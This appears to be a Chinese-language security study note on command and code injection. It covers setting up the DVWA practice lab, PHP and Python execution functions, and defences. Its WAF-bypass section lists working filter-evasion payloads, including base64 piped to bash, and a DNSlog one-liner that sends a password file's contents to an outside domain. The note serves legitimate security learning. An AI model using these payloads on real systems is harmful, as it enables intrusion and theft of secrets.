



# 命令执行和代码执行

## 靶场安装

### 靶场搭建

没有找到类似于sqllabs的靶场，暂时通过DVWA靶场来学习，一些相关的题后续慢慢追加

#### 环境搭建

采用phpstudy集成环境搭建

#### DVMA搭建

1. 下载DVMA

[下载地址](https://github.com/digininja/DVWA)

2. 将下载后的压缩包解压放置WWW目录下

3. 进入DVWA下的config文件打开**config.inc.php(或config.inc.php.dist)**文件

   如果文件为config.inc.php.dist需要删除后缀.dist

4. 将其内的db_user与db_password都改为自己数据库的账户与密码；具体百度查询

   

5. 浏览器下通过本地服务器DVWA目录下的setup.php；点击又下方的Create/Reset Database按钮

6. 等待网页跳转，默认用户名 admin；默认密码 password

7. 然后在DVMA Security处修改难度(默认为imposs)

   

#### web for pentester靶场

* 镜像搭建

  [Web For Pentester下载地址](https://download.vulnhub.com/pentesterlab/web_for_pentester_i386.iso)

  虚拟机中搭建[web for pentester介绍与安装_Jone_Dom的博客-CSDN博客](https://blog.csdn.net/Jone_Dom/article/details/89502369)

## 命令执行

### 一. 命令执行漏洞原理

#### 1.1 漏洞产生的原因

当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。如 PHP 中的 `system`、`exec`、`shell_exec` 等，当用户可以控制命令执行函数中的参数时，将可以注入恶意系统命令到正常命令中，造成命令执行攻击。

#### 1.2 执行漏洞的结果

直接调用操作系统命令

#### 1.3 命令执行漏洞

##### 语句连接

1. command1 && command2       只有前面命令执行成功，后面命令才继续执行
2. command1  |   command2 	  前面命令的结果会当作后面命令的输入
3. command1  &  command2 	  两个命令同时执行
4. command1 || command2 	   先执行command1，如果为假，再执行command2命令执行漏洞（）
5. command1  ;   command2	   不管前面命令执行成功没有，后面的命令继续执行，linux独有的，上面的管道符linux和windows都可以使用

##### PHP常见命令执行函数

- system()：执行一个外部的应用程序的输入并显示输出的结果

  **注** 	这个函数会将结果直接进行输出      (注意：是直接输出区别于返回值)，命令成功后返回输出的最后一行，失败返回FALSE

- exec()：执行一个外部的应用程序，但不显示输出的结果

- passthru()：执行一个系统命令并显示原始的输出

- shell_exec()：执行shell命令并返回输出的结果的字符串

-  ``(反引号)     ：与shell_exec函数的功能相同

- popen()：通过创建一个管道，调用fork()[^1]产生一个子进程，执行一个shell以运行命令来开启一个进程。这个管道必须由pclose()函数关闭

  [^1]:fork()函数通过系统调用创建一个与原来进程几乎完全相同的进程;如参数不同，进程也不同

- proc_open()：执行一个命令，并且打开用来输入/输出的文件指针

- pcntl_exec()：用来执行一个程序（shell脚本），需要开启pcntl扩展

- COM组件：Wscript.Shell和Shell.Application，php>5.4版本需手动添加该扩展

- dl()：通过加载自定义php扩展突破 disable_fucnitons指令的限制

##### Python常见的命令执行函数

* system()：执行系统指令

* popen()：方法用于从一个命令打开一个管道

* subprocess.call：执行由参数提供的命令，但**元组里的元素不能有空格，每个命令或者标识单独一个字符串**

  eg

  ```
  retcode = subprocess.call(["java", '-jar', jarPath, apkFile, channel, version, targetDstDir])
  ```

* spawn()：用来匹配返回的结果，这个返回的结果是指子程序的返回结果，同时会将匹配的相关信息保存在spawn类的相关属性中

  [spawn详解](https://www.cnblogs.com/space007/p/7019103.html)

#### 1.4 一些waf绕过的姿势

##### 1.4.1 空格绕过

< <> 重定向符(重定向符和ls语句连用可能会产生问题)

%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功、能
%20

##### 1.4.2 语句拼接

```
a=c;b=at;c=fl;d=ag;$a$b $c$d
```

##### 1.4.3 单引号、双引号、反斜杠

```
c""at fl''a\g
```

##### 1.4.4 base64编码(各种编码)

```
echo "Y2F0IGZsYWc="|base64 -d
echo "Y2F0IGZsYWc="|base64 -d|bash (在bash被过滤的情况下可尝试sh)
```

##### 1.4.5 正则（通配符）

```
/???/?[a][t] ?''?''?''?''
```

除次之外，还有glob通配符——参考[无字母数字webshell之提高篇 ](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#glob)

##### 1.4.6 替代函数

cat的替代  

```
cat file1 从第一个字节开始正向查看文件的内容  
tac file1 从最后一行开始反向查看一个文件的内容  
more file1 查看一个长文件的内容  
less file1 类似于 ‘more’ 命令，但是它允许在文件中和正向操作一样的反向操作  
head file1 查看一个文件  
tail file1 查看一个文件  
awk file1 查看一个文件  
sort file1 将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按ASCII码值进行比较，最后将他们按升序输出  
nl file1 可以将输出的文件内容自动的加上行号
```

##### 1.4.7内敛执行

```
cat$IFS$9`ls`  //反引号` `直接返回的就是该cmd的执行结果，但是不会屏幕上表现出来
cat$IFS$9$(ls)
```

内联，就是将``或$()内命令的输出作为输入执行;这两个符号会将内部内容作为系统命令执行

##### 1.4.8 异或和取反构造字符

通过$、+、-、^、~、|等符号，从未被过滤的字符中构造playload  
参考[一些不包含数字和字母的webshell ](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

##### 1.4.9 控制环境变量绕过  

先利用echo $PATH得到环境变量 => "/usr/local/….blablabla”
接着利用echo ${#PATH}得到长度
然后要哪个字符截取哪个字符就行
${PATH:0:1} => ‘/’
${PATH:1:1} => ‘u’
${PATH:0:4} => ‘/usr’

##### 1.4.10 花括号绕过  

在Linux bash中还可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令`{cat,flag}`

##### 1.4.11 curl绕过  

可以通过curl命令将命令的结果输出到访问的url中

##### 1.4.12 声明类型，绕过引号，然后利用**.**拼接命令  

eg：$a = (string)foo;在这种情况下，变量$a就是字符串“foo”

##### 1.4.13 DNSlog外带

利用域名解析请求

假设我们有个可控的二级域名，那么目标发出三级域名解析的时候，我们这边是能够拿到它的域名解析请求的，可以配合DNS请求进行命令执行的判断，这一般被称为dnslog  
要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现  
例：可以去ceye.io注册个账号，注册完后会给一个域名，如果有域名解析请求会有记录；如得到的域名是test.ceye.io，当有主机访问1111.test.ceye.io时，就会记录下来这个域名解析请求；其中1111可以替换成我们需要获取的信息；如：cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

##### ......（慢慢补充）

### 二. 命令执行漏洞的预防

* 不执行外部的应用程序或命令  

  尽量使用自定义函数或函数库实现外部应用程序或命令的功能。在执行system、eval等命令执行功能的函数前，要确认参数内容。

* 参数的值尽量使用引号包括，并在拼接前调用addslashes进行转义

* 使用escapeshellarg函数处理相关参数  

  escapeshellarg函数会将用户引起参数或命令结束的字符进行转义，如单引号“’”会被转义为“’”，双引号“"”会被转义为“"”，分号“;”会被转义为“;”，这样escapeshellarg会将参数内容限制在一对单引号或双引号里面，转义参数中包括的单引号或双引号，使其无法对当前执行进行截断，实现防范命令注入攻击的目的。

* 使用safe_mode_exec_dir执行可执行的文件路径  

  将php.ini文件中的safe_mode设置为On，然后将允许执行的文件放入一个目录，并使用safe_mode_exec_dir指定这个可执行的文件路径。这样，在需要执行相应的外部程序时，程序必须在safe_mode_exec_dir指定的目录中才会允许执行，否则执行将失败

## 代码执行

### 一、原理

代码执行漏洞是指 攻击者利用 **将字符串转化成代码的函数** , 进行代码注入

### 二、代码执行的函数

#### PHP

* eval()：输入的字符串当做PHP代码执行

* assert()：输入的字符串当做PHP代码执行 ，如果其值为假（即为0），那么它先向stderr打印一条出错信息，然后通过调用 abort 来终止程序运行

* preg_replace()：/e模式下会将replacement的参数当作 PHP 代码

  [preg_replace与代码执行](https://xz.aliyun.com/t/2557)

* create_function()：会创建一个匿名函数，并在内部执行eval()  

  [代码审计之create_function()](https://www.cnblogs.com/-qing-/p/10816089.html)在phpPHP 7.2.0开始取消了该函数

#### python

* eval()：返回表达式或代码对象的值(**会将内部的字符作为表达式执行**)

* execfile()：可以用来执行一个文件

* exec()：exec 执行储存在字符串或文件中的 Python 语句，相比于 eval，exec可以执行更复杂的 Python 代码

  eg：

  ```python
  with open('E://eg.txt', 'r') as f:
      s = f.read()
  
  exec(s)//如果eg.txt为python文件，会将其直接执行
  ```

* input()：**python2**中eval(raw_input(prompt)),用来获取控制台的输入，**但python3中不行**

* compile()：将指定的源作为代码对象返回，并准备执行。[Python compile() 函数 (w3school.com.cn)](https://www.w3school.com.cn/python/ref_func_compile.asp)

### 三、防御

代码执行的防御分为三个方面 **参数** , **函数** 和 **权限**

* 使用addslashes()函数将参数转译,或使用黑白名单校验

*  禁用或减少使用执行代码的函数

*  以及限制Web用户的权限
